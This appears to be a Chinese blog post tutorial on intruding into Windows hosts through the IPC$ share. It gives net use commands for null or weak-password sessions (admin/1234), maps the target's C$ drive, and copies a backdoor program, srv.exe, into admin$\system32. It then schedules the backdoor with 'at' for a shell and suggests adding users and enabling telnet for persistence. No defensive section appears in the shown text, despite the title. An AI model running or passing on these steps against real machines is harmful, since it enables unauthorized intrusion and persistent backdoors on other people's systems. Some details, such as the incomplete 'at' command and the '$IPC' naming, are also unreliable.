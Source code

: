 ```yaml
---
title: $IPC连接
date: 2016-10-21 21:30:38
tags: tech
---
```



$IPC漏洞是常用的入侵windows2000/NT/XP/7/8/8.1/10的手段，在windows2000/NT/XP上直接通行无阻，在windows7以上版本取得弱密码后也能成功控制目标。这个漏洞是最常见的远程非社会工程学入侵手段
<!--more-->

# 关于windows $IPC漏洞的应用及解决办法
## 什么是$IPC漏洞

$IPC漏洞是一个在windows操作系统上面的常见漏洞
目前为止所有windows桌面版本中默认开启$IPC管道服务
$IPC漏洞是常用的入侵windows2000/NT/XP/7/8/8.1/10的手段，在windows2000/NT/XP上直接通行无阻，但在windows7及以上版本需要用“流光 Fluxary”等工具扫描出管理员弱密码才能取得权  

---

## 如何利用$IPC漏洞入侵
提前说一句，这个漏洞不大，要扩大漏洞的话，还要自己再开辟shell哦，可以自己打开telnet服务，也可以使用后门工具
### $IPC命令简介
#### 连接主机
如果不知道目标主机的用户名和密码就只能用空连接 
> net use \\\目标ip\$IPC "" /user：""

如果知道一个用户名和密码就更好了，很多人都会用"admin"用户名和空密码
我们举一个例子，用户名admin，密码1234
建立连接
> net use \\\目标ip\$IPC "1234" /user："admin"


#### 映射硬盘或文件夹
同样以用户名admin，密码1234为例
> net use z: \\\目标ip\c$ "1234" /user:"admin"      (这样就可以将目标的c盘映射为自己的z盘，其他的类似)


如果已经和目标建立了$IPC连接，则可以直接用IP+盘符+$访问
> net use z: \\\目标ip\c$


#### 删除$IPC连接
> net use \\\目标ip\$IPC  /del


#### 查看目标主机共享资源
> net view \\\目标ip\



---

### 普通入侵方式
#### 建立连接
建议用工具先获得管理员密码，否则在windows7以上版本会权限不够
#### 开启telnet服务或上传后门程序运行
找一个后门程序srv.exe（流光软件里有）
> copy srv.exe \\\目标ip\admin$\system32

然后设置定时运行

> at xx:xx:xx

这就建立了一个shell，相当于自己就在用目标机器上的命令行啦  
当然，为了可以持续访问，可以添加用户，开启telnet服务
